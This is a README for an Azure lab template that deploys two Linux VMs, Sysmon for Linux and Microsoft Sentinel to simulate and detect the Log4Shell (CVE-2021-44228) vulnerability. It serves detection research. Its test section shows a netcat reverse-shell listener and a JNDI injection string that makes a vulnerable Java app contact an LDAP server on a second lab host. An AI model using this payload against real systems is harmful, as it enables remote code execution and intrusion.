

# CVE-2021-44228 Log4Shell Research Lab Environment

[](https://portal.azure.com/#create/Microsoft.Template/uri/https%3A%2F%2Fraw.githubusercontent.com%2FOTRF%2FMicrosoft-Sentinel2Go%2Fmaster%2Fgrocery-list%2FLinux%2Fdemos%2FCVE-2021-44228-Log4Shell%2Fazuredeploy.json)

## Metadata

* **Author:** [Roberto Rodriguez (@Cyb3rWard0g)](https://twitter.com/Cyb3rWard0g)
* **Deployment time:** 5-10 mins

## Grocery Items

* Microsoft Sentinel
    * Would you like to Bring-Your-Own Microsoft Sentinel?.
    * If so, set the `workspaceId` and `workspaceKey` parameters of your own workspace.
* 2 Linux VMs: `Ubuntu 18.04.6 LTS` - Kernel release: `5.4.0-1059-azure `
    * `UBUNTU5`
        * [Log Analytics Agent for Linux](https://github.com/microsoft/OMS-Agent-for-Linux) installed
        * It connects to the Microsoft Log Analytics workspace defined in the template.
        * [Syslog Data Connector](https://docs.microsoft.com/en-us/azure/sentinel/connect-syslog) enabled
        * Linux Syslog Facilities collected
            * `user`
        * [Sysmon for Linux installed](https://github.com/Sysinternals/SysmonForLinux)
            * [Sysmon for Linux installer](https://github.com/OTRF/Blacksmith/blob/master/resources/scripts/bash/Install-Sysmon-For-Linux.sh)
            * [Sysmon configuration](https://github.com/OTRF/Blacksmith/blob/master/resources/configs/sysmon/linux/sysmon.xml)
    * `UBUNTU6`
        * LDAP Reference server
        * Web server

## Validate Environment

### UBUNTU5
SSH to `UBUNTU5` box and check for `Sysmon for Linux` running:

```bash
service sysmon status
```
### UBUNTU6
SSH to `UBUNTU6` box to make sure the `LDAPRefServer` and `Nginx (Web Server)` are running:

```bash
docker ps

docker logs --follow ldap-server
docker logs --follow web-server
```

## Run Basic Test

This scenario simulates an attacker using the log4j RCE vulnerability to get a reverse shell via netcat.
### UBUNTU6

Start a netcat listener on port `443`:

```
nc -lvnp 443
```

### UBUNTU5

Vulnerable app was compiled during the deployment of the Azure VM.

```
cd vulnApps/basicJar
java -cp target/Log4jLabProject-1.0-SNAPSHOT-all.jar com.log4jshell.App '${jndi:ldap://192.168.2.6:1389/Run}'
```



## Query Microsoft Sentinel

Check your Sysmon logs:

```
Syslog 
| extend EventID = parse_xml(SyslogMessage).Event.System.EventID 
| extend EventData = parse_xml(SyslogMessage).Event.EventData.Data 
| mv-expand bagexpansion=array EventData 
| evaluate bag_unpack(EventData) 
| extend Key=tostring(['@Name']), Value=['#text'] 
| evaluate pivot( 
    Key, any(Value), TimeGenerated, TenantId, SourceSystem, 
    EventID, Computer, Facility, SeverityLevel, HostIP, MG, Type, _ResourceId 
)
```

## Additional Features

### Collect Network Traffic via TCPDump

on `UBUNTU5`, open a new ssh session and run the following commands before running the basic test:

```bash
tcpdump -i eth0 -w log4jShell.pcap host 192.168.2.5 and host 192.168.2.6
```

You can then copy the PCAP from your Azure VM to your local endpoint:

```bash
scp user@x.x.x.x:/home/user/log4jShell.pcap C:\Users\YOU\Downloads\
```

Open the PCAP in [Wireshark](https://www.wireshark.org/):


## References
* https://github.com/Cyb3rWard0g/log4jshell-lab